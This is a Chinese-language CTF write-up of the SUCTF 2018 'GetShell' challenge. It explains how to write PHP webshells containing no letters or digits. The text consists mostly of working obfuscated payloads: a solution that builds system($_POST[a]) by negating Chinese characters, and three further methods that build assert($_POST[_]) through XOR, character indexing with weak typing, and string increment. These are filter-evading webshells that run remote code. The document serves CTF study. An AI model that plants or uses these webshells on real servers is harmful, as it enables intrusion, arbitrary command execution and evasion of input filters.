 # [SUCTF 2018]GetShell

![image-20210608132208904]([SUCTF 2018]GetShell/image-20210608132208904.png)

## 知识点

- 不包含数字和字母的webshell

## 解题

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);

//system($_POST[a])
```

![image-20210608132406258]([SUCTF 2018]GetShell/image-20210608132406258.png)

查看环境变量，拿到flag

![image-20210608132429206]([SUCTF 2018]GetShell/image-20210608132429206.png)









## 方法一

两个字符串异或，得到的还是一个字符串。所以，我们想得到a-z中某个字母，就找到某两个非字母、数字的字符，他们的异或结果是这个字母即可。

得到如下的结果（因为其中存在很多不可打印字符，所以我用url编码表示了）：

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_])
```

## 方法二

利用的是UTF-8编码的某个汉字，并将其中某个字符取出来，比如`'和'{2}`的结果是`"\x8c"`，其取反即为字母`s`：

![14872686600768.jpg]([SUCTF 2018]GetShell/fadccb70-4143-49df-aa47-bc9a1af93c56.97e405012da5.jpg)

```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
//assert($_POST['a'])
```

这个答案还利用了PHP的弱类型特性。因为要获取`'和'{2}`，就必须有数字2。而PHP由于弱类型这个特性，true的值为1，故`true+true==2`，也就是`('>'>'<')+('>'>'<')==2`。

## 方法三

那么，如果不用位运算这个套路，能不能搞定这题呢？有何不可。

这就得借助PHP的一个小技巧，先看文档： http://php.net/manual/zh/language.operators.increment.php

![14872693882387.jpg]([SUCTF 2018]GetShell/a386505b-1c14-48f0-88cb-66923770df33.8732f996cd67.jpg)

也就是说，`'a'++ => 'b'`，`'b'++ => 'c'`... 所以，我们只要能拿到一个变量，其值为`a`，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为`Array`：

![14872697183159.jpg]([SUCTF 2018]GetShell/4d0c6bc9-5417-41b2-91ca-4e110e8d1350.72f524026162.jpg)

再取这个字符串的第一个字母，就可以获得'A'了。

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E 
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); 
// ASSERT($_POST[_]);
```